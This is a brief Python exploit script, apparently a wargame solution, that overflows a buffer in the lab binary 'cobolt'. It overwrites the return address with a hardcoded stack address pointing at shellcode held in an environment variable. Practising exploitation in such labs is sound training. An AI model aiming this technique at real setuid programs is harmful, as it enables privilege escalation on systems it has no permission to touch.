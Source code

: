 
```python
import os
import struct

append = lambda x: payload + x
p32 = lambda x: struct.pack("<I", x)

target = "/home/gremlin/cobolt"

shellcode_env_addr = 0xbffffc21

payload = "\x90"*20
payload = append(p32(shellcode_env_addr))

pid = os.fork()

if pid == 0:
        os.execv(target, (target, payload))
else:
        os.waitpid(pid, 0)
```



-----